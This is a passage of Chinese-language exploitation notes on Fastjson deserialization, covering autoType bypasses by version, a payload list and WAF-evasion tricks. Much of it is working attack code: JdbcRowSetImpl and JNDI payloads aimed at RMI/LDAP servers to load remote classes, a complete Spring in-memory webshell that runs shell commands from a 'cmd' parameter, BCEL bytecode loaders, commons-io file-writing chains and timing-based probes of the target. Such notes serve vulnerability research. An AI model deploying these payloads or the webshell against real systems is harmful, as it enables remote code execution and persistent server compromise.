        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/nhdzhn\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}


```



原理的话首先`[`是可以进入 loadclass 的逻辑的，但是 Java 处理的时候是存在 json 解析有问题的所以进行了报错



```
Exception in thread "main" com.alibaba.fastjson.JSONException: exepct '[', but ,, pos 42, json : {"@type":"[com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/nhdzhn", "autoCommit":true}


```

那么看看 GPT 怎么说


其实就是一个 json 字符串的解析，所以加上去就好了

加上后仍然报错，依旧是一一样的问题，所以加上`{`即可



‍

### fastjson1.2.25-1.2.47 通杀

#### 影响版本

1.2.25-1.2.32:

未开启 AutoTypeSupport 时能成功利用

1.2.33-1.2.47:

无论是否开启 AutoTypeSupport 都能成功利用

‍

并且传入的是 java.lang.class 在下面也能绕过黑名单，重点还是看第二个键值解析。

‍

##### 1.2.25<=Fastjson<=1.2.32

先来继续查看这个`checkAutoType`方法，因为没有开启 AutoTypeSupport，所以就不会进入这个 if 黑白名单判断的逻辑，他就会有两种加载类的模式，如果说我们能够在这两种加载类的模式下把我们恶意类加载进去导致绕过了黑白名单，这是不是也是一种恶意类加载呢



1.  `TypeUtils.getClassFromMapping(typeName)` 这个 mapping 中找这个类

步进这个 Mapping，得到 mapping 如下



再步进一下 mapping 发现是一个 private 的实例化`ConcurrentHashMap`对象



那么由于知道这里是一个 entry，所以就进行`mappings.put`方法的搜索，发现在 <span>TypeUtils.loadClass</span> 有调用到



再次全局搜索看哪里调用了 `TypeUtils.loadClass()`

存在 5 处调用



但其实这五处全是

1.  要开启 <span>autoType</span>
2.  类在白名单内
3.  传不了参数

最后在`com.alibaba.fastjson.serializer.MiscCodec.deserialze`中分析



发现是继承了 `ObjectSerializer` `ObjectDeserializer` 两个反序列化的父类

先看看调用的代码和传入的参数



参数为 `strVal, parser.getConfig().getDefaultClassLoader()`

先看看 `strVal` 是如何传入的



在这个 266 行当中可以看到代码为 `strVal = (String)objVal;`

所以跟进一下`objVal`





然后整个链子也很清晰了，就是把我们在 json 中传入的 val 中的内容给到这个`strVal`然后他会进行 loadclass 后载入 mapping 成为一个字符串的缓存，这样子就绕开了黑白名单限制了加载到缓存中以后，在下一次 checkAutoType 的时候，直接就返回了，绕过了检验的部分直接执行

‍

‍

‍

‍

‍

‍

2.  `this.deserializers.findClass(typeName);` 去这里找这个类

如果上面的无法加载类则进入这个逻辑，从 `deserializers.findClass(typeName)` 中获取类





确实是可以写入数据的，但是去找一下谁调用了`putDeserializer` 但似乎是找不到可控的调用点，所以关注点就应该在上述方法中

‍

‍

‍

‍

‍

‍

EXP

```
import com.alibaba.fastjson.JSON;

public class Fastjson6 {
    public static void main(String[] args) throws Exception{
        String payload = "{\n" +
                "    \"a\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    },\n" +
                "    \"b\":{\n" +
                "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "        \"dataSourceName\":\"rmi://127.0.0.1:1099/evilObject\",\n" +
                "        \"autoCommit\":true\n" +
                "    }\n" +
                "}";
        JSON.parse(payload);
    }
}


```

‍

‍

‍

##### 1.2.33<=Fastjson<=1.2.47

首先要思考一下为什么要分成两个部分？因为上面的版本开了`AutoTypeSupport` 是不成功的，而往后的版本是可以成功的，为什么呢？



这一句话解释的非常清楚，就是说 在第一个键值载入缓存的

```
TypeUtils.getClassFromMapping(typeName) == null


```

这一串是不成立的，但是在 1.2.25-1.2.32 之间，他们开启的`AutoTypeSupport`的时候，并没有这个语句，从而导致了不论你载入缓存没有，都会进入黑名单，所以都会被 ban 掉，而不知道为什么反而后面的版本加上了所以直接绕过了

‍

‍

### fastjson<=1.2.68

[https://mp.weixin.qq.com/s/EXnXCy5NoGIgpFjRGfL3wQ](https://mp.weixin.qq.com/s/EXnXCy5NoGIgpFjRGfL3wQ)

[https://mp.weixin.qq.com/s/OvRyrWFZLGu3bAYhOPR4KA](https://mp.weixin.qq.com/s/OvRyrWFZLGu3bAYhOPR4KA)

在这个版本当中官方修复了这个缓存的地方，



但是他更新了一个 `safeMode` 如果开启了 safeMode，那么 autoType 就会被完全禁止。不过在这个版本里默认是为 false，后面的版本默认为 true 会直接抛出异常。 接着在下面的 if 中判断是否在期望类的黑名单中，而 AutoCloseable 不在黑名单中，所以给 expectClassFlag 赋值为 true。

‍

来看一下这个 <span>checkAutoType 函数 </span>



### fastjson=1.2.62

```
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1099/exploit"}";


```

‍

### fastjson = 1.2.66

‍

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1389/Calc"\}\}


```

‍

‍

‍

‍

‍

‍

信息的探测
-----

### 版本探测

去掉花括号不闭合的话，是会把版本号给露出来的



源码中可以看到 当解析器没读到} 时，在报错中就会把版本号一起带出


以下探测是存在 fastjson 并且可以加载字节码情况

### 操作系统探测

```
        String osName = System.getProperty("os.name").toLowerCase();
        System.out.println(osName);
        if (osName.contains("nix") || osName.contains("nux") || osName.contains("mac"))
        {
            Thread.sleep(3000);
        } else if (osName.contains("win")) {
            Thread.sleep(6000);
        } else {
            Thread.sleep(9000);
        }


```

‍

### 中间件探测

```
        Map stackTraces = Thread.getAllStackTraces();
        for (Map.Entry entry : stackTraces.entrySet()) {
            StackTraceElement[] stackTraceElements = entry.getValue();
            for (StackTraceElement element : stackTraceElements) {

                if (element.getClassName().contains("org.apache.catalina.core")) {
                    Thread.sleep(5000);
                    return;
                }
            }
        }


```


‍

### 探测 JDK 版本

```
        String javaVersion = System.getProperty("java.version");

        int majorVersion = Integer.parseInt(javaVersion.split("\\.")[1]);

        switch (majorVersion) {
            case 5:
                Thread.sleep(1000);
                break;
            case 6:
                Thread.sleep(2000);
                break;
            case 7:
                Thread.sleep(3000);
                break;
            case 8:
                Thread.sleep(4000);
                break;
            default:
                Thread.sleep(5000);
                break;


```

‍

[记一次失败的 Fastjson 漏洞利用. pdf](https://forum.butian.net/share/assets/%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%A4%B1%E8%B4%A5%E7%9A%84Fastjson%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8-20231209135615-stythrp.pdf)

‍

Fastjson 不出网利用
--------------

[https://xz.aliyun.com/t/12492#toc-3](https://xz.aliyun.com/t/12492#toc-3)

### TemplatesImpl

这种利用方式比较苛刻，需要 parse 或者 parseObject 第二个参数为`Feature.SupportNonPublicField`，否则无法访问。 因为 TemplatesImpl 中`_bytecodes`却是私有属性，`_name`也是私有域，fastjson 只能反序列化 public

‍

这种怎么打不出网呢？

*   对静态资源写入内容



*   TemplatesImpl 内存马

打 spring 内存马进去

```
package com.exmple;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;
import java.lang.reflect.Method;


public class TemplatesImplSpringController extends AbstractTranslet {
    public TemplatesImplSpringController() throws Exception{
        super();
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.
                currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        method.setAccessible(true);
        Method method2 = TemplatesImplSpringController.class.getMethod("test");
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        TemplatesImplSpringController inject = new TemplatesImplSpringController("aaa");
        mappingHandlerMapping.registerMapping(info, inject, method2);

    }
    public TemplatesImplSpringController(String aaa) {

    }
    public void test() throws Exception {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();

        try {
            String arg0 = request.getParameter("cmd");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) {
                String o = "";
                java.lang.ProcessBuilder p;
                if (System.getProperty("os.name").toLowerCase().contains("win")) {
                    p = new java.lang.ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
                } else {
                    p = new java.lang.ProcessBuilder(new String[]{"/bin/sh", "-c", arg0});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
                o = c.hasNext() ? c.next() : o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            } else {
                response.sendError(404);
            }
        } catch (Exception e) {
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public static void main(String[] args) {
        try {
            new TemplatesImplSpringController();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}


```

编译成 class 文件直接加载恶意类即可

‍

‍

‍

‍

### BasicDataSource(BCEL 攻击)

(需要 dbcp 或 tomcat-dbcp 的依赖)

导入依赖

```
    org.apache.tomcat
    tomcat-dbcp
    9.0.63


```

这条利用链主要是利用 tomcat 中`com.sun.org.apache.bcel.internal.util.ClassLoader#loadclass`方法加载 bcel 字节码，之后调用 defineClass 进行加载字节码

先是判断了是否存在`$$BCEL$$`



然后进行 `createClass` 进行 BECL 的解码

‍

‍



‍

再看一下 `org.apache.tomcat.dbcp.dbcp2.BasicDataSource#getConnection`方法中，这里调用了 createDataSource 方法



跟进一下`createDataSource()`



这里调用了`this.createConnectionFactory()` 再次跟进一下



发现是把我们传入的东西作为参数调用了`createDriver`方法执行，再次 跟进



可以看到这里是`Class.forName`将类加载进来，并且设置了`initialize`参数为 true【其实就是告诉 Java 虚拟机是否执⾏” 类初始化而 staic 就是在类初始化加载的】而`Class.forName`方法实际上也是调用的`CLassLoader` 来实现的。所以 1 和 3 都是可控的

发现最终在这行代码中 `driverFromCCL = Class.forName(driverClassName, true, driverClassLoader);` 将我们的 BCEL 语句直接被反射寻找类去加载

‍

那么后半段链子已经搞清楚了，现在目的就是搞清楚，是如何调用我们指定类的`getConnection`呢？可是再来仔细看一下这个类

‍


`public Connection getConnection()`

他的返回值是 `Connection`

`public interface Connection extends Wrapper, AutoCloseable {`

并没有继承上述的五个啊，这就不符合他默认调用 geter 的方法了！

但这里就是一个 fastjson 的一个小 trick 了，如果在原先的 json 字符串上再套上一层`{}`，就会吧原先的整体当做一个 key 来认为，来看一下 poc


可以发现 aaa 为 key 后面的为 value，但是再套一层的话，就可以发现整体为 key，value 为 bbb 了，那么这么做的用意是什么呢？

‍

解释：

将这个 JSONObject 放在 JSON Key 的位置上，在 JSON 反序列化的时候，FastJson 会对 JSON Key 自动调用 toString() 方法：

在`DefaultJSONParser.java#parseObject`中找到对 key 进行 toString 方法的调用



而且 JSONObject 是 Map 的子类，当调用`toString`的时候，会依次调用该类的 getter 方法获取值。然后会以字符串的形式输出出来。所以会调用到`getConnection`方法

‍

EXP

```
{
    {
        "aaa": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
            
            
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }: "bbb"
}


```

‍

恶意类

```
public class Poc{
    public Poc(){
        try{
            Runtime.getRuntime().exec(new String[]{"open -a calculator"});
        } catch (Exception e) {
        }
    }


package com.exmple;

import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.io.BufferedWriter;
import java.io.FileWriter;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

public  class Bcel {

    public static void main(String[] args) throws IOException {
        Path path = Paths.get("/Users/ajie/Desktop/fastjson/target/classes/com/exmple/Poc.class(绝对路径)");
        byte[] bytes = Files.readAllBytes(path);
        System.out.println(bytes.length);
        String result = Utility.encode(bytes,true);
        BufferedWriter bw = new BufferedWriter(new FileWriter("res.txt"));
        bw.write("$$BCEL$$" + result);
        bw.close();
    }
}


```

那么这条链子就结束，具体的用法跟 TemplatesImpl 链子差不多，可以加载恶意类的字节码来打内存马

‍

‍

### Commons-io 写文件 / webshell

存在这个依赖

```
  commons-io
  commons-io
  2.5


```

‍

##### Jre8 原始 poc

```
{
    "x":{
        "@type":"java.lang.AutoCloseable",
        "@type":"sun.rmi.server.MarshalOutputStream",
        "out":{
            "@type":"java.util.zip.InflaterOutputStream",
            "out":{
                "@type":"java.io.FileOutputStream",
                "file":"/tmp/dest.txt",
                "append":false
            },
            "infl":{
                "input":"eJwL8nUyNDJSyCxWyEgtSgUAHKUENw=="
            },
            "bufLen":1048576
        },
        "protocolVersion":1
    }
}


```

‍

##### commons-io 2.0 - 2.6 版本：

‍

```
{
  "x":{
    "@type":"com.alibaba.fastjson.JSONObject",
    "input":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aaaaaa...(长度要大于8192，实际写入前8192个字符)"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer":{
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file":"/tmp/pwned",
        "encoding":"UTF-8",
        "append": false
      },
      "charsetName":"UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "trigger":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger2":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger3":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    }
  }
}


```

‍

##### commons-io 2.7 - 2.8.0 版本：

```
{
  "x":{
    "@type":"com.alibaba.fastjson.JSONObject",
    "input":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aaaaaa...(长度要大于8192，实际写入前8192个字符)",
        "start":0,
        "end":2147483647
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer":{
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file":"/tmp/pwned",
        "charsetName":"UTF-8",
        "append": false
      },
      "charsetName":"UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "trigger":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "inputStream":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger2":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "inputStream":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger3":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "inputStream":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    }
  }


```

‍

### C3P0 二次序列化 之 hex 序列化字节加载器

‍

‍

‍

‍

$ref
----

ref 是 fastjson 特有的 JSONPath 语法，用来引用之前出现的对象

‍

因为调用 geter 是有限制的，对于不满足 getter 的方法的时候我们该怎么解决呢？当 fastjson>=1.2.36 的时候，可以使用`$ref`方式调用 getter

举个例子

```
public class test {
    private String cmd;

    public void setCmd(String cmd) {
        System.out.println("seter call");
        this.cmd = cmd;
    }

    public String getCmd() throws IOException {
        System.out.println("geter call");
        Runtime.getRuntime().exec(cmd);
        return cmd;
    }
}


```

‍

```
public class ref_fastjson {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "[{\"@type\":\"org.example.Test\",\"cmd\":\"calc\"},{\"$ref\":\"$[0].cmd\"}]";
        JSON.parse(payload);
    }
}


```


这其实不就是一个数组吗，fastjson 解析到`$ref`会判断为是一个引用，`$[0]`表示的是数组里的第一个元素，则`$[0].cmd`表示的是获取第一个元素的 cmd 属性的值。

‍

进来后并没有处理什么，而是跟进`handleResovleTask` 代码仅仅只是给他赋多了一个属性



然后会获取`ref`这个 key 的 value，然后吧这两个值作为参数传入`JSONPath.eval`中



然后将 value 的值再次 eval



这里有一个`init()`



跟进后发现不满足条件走了下面代码


注意看`explain()`函数，这个函数的作用是把 $ref 的 value 解析成 segment，Segment 是定义在 JSONPath 类的一个 interface，然后 explain() 会把一个完整的 JSONPath 拆分成小的处理逻辑 最终`JSONPath.eval` 最终会调用到`getPropertyValue` 函数，会尝试调用 fieldInfo 的 get 函数或者用反射的方式调用 getter


‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

Fastjson 关键字绕过
--------------

查看 `fastjson-1.2.24.jar!\com\alibaba\fastjson\parser\JSONLexerBase.java`

可以找到 `JSONLexerBase.scanSymbol`这个函数是 fastjson 用来处理 json 字符串的函数

也可以发现存在以下特殊代码

```
                    case 'u':
                        char c1 = this.next();
                        char c2 = this.next();
                        char c3 = this.next();
                        char c4 = this.next();
                        int val = Integer.parseInt(new String(new char[]{c1, c2, c3, c4}), 16);
                        hash = 31 * hash + val;
                        this.putChar((char)val);
                        break;

                    case 'x':
                        char x1 = this.ch = this.next();
                        x2 = this.ch = this.next();
                        int x_val = digits[x1] * 16 + digits[x2];
                        char x_char = (char)x_val;
                        hash = 31 * hash + x_char;
                        this.putChar(x_char);


```

当输入的字符是形如`\u`或者`\x`的情况下 fastjson 是会对其进行解码操作的, fastjson 支持字符串的 Unicode 编码和十六进制编码 所以默认情况下是可以通过 unicode 编码和 16 进制来进行绕过的





‍

Fastjson 绕 waf
--------------

##### 结合 Feature 词法分析器进行混淆绕过

FastJson 在序列化和反序列化的过程中提供了很多特性, 例如 Feature.DisableFieldSmartMatch。如果没有选择该 Feature, 那么在反序列的过程中，FastJson 会自动把下划线命名的 Json 字符串转化到驼峰式命名的 Java 对象字段中

会存在以下的一些 Feature 语法

```
features |= Feature.AutoCloseSource.getMask();
features |= Feature.InternFieldNames.getMask();
features |= Feature.UseBigDecimal.getMask();
features |= Feature.AllowUnQuotedFieldNames.getMask();
features |= Feature.AllowSingleQuotes.getMask();
features |= Feature.AllowArbitraryCommas.getMask();
features |= Feature.SortFeidFastMatch.getMask();
features |= Feature.IgnoreNotMatch.getMask();


```




```
"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}*/


```

‍


‍

5.  Content-Type 设置为通配符`*/*`来绕过相关的检查



‍

EXP
---

1.2.24

##### <=1.2.24

‍

```
import com.alibaba.fastjson.JSON;

public class Fastjson_Jdbc_RMI {
    public static void main(String[] args) {
        String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/badClassName\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}


```

‍

```
        String payload = "{" +
                "\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                "\"_outputProperties\":\"{ }\", " +
                "\"_name\":\"a.b\" " +
                "\"_tfactory\":\"{ }\", " +
                "\"_bytecodes\":[\"base64\"] "+
                "}";


```

‍

##### 1.2.25-1.2.41

```
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Jdbc {
    public static void main(String[] args) throws Exception {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/nhdzhn\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}


```

‍

##### 1.2.42

```
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Jdbc {
    public static void main(String[] args) throws Exception {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\"," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/nhdzhn\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}


```

‍

##### 1.2.43

```
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Jdbc {
    public static void main(String[] args) throws Exception {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{," +
                "\"dataSourceName\":\"rmi://127.0.0.1:1099/nhdzhn\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}


```

‍

##### 1.2.25-1.2.47 通杀

```
import com.alibaba.fastjson.JSON;

public class Fastjson6 {
    public static void main(String[] args) throws Exception{
        String payload = "{\n" +
                "    \"a\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    },\n" +
                "    \"b\":{\n" +
                "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "        \"dataSourceName\":\"rmi://127.0.0.1:1099/evilObject\",\n" +
                "        \"autoCommit\":true\n" +
                "    }\n" +
                "}";
        JSON.parse(payload);
    }
}


```

##### Fastjson 的智能匹配解析

1.  使用`-`混淆字段名



2.  使用`_`混淆字段名



3.  使用`-`和`_`组合



4.  添加 is 来混淆属性



‍

Payload
-------

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap/rmi Server", "autoCommit":true}

{"zeo":{"@type":"java.net.Inet4Address","val":"dnslog"\}\}
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"\}\}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"\}\}""}
\{\{"@type":"java.net.URL","val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL","val":"dnslog"}]
Set[{"@type":"java.net.URL","val":"dnslog"}
\{\{"@type":"java.net.URL","val":"dnslog"}:0


{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/bm0qgp","autoCommit":"true"\}\}


{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_outputProperties":{ },'_name':'a.b','_tfactory':{ },"_bytecodes":["base64"]}


```

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
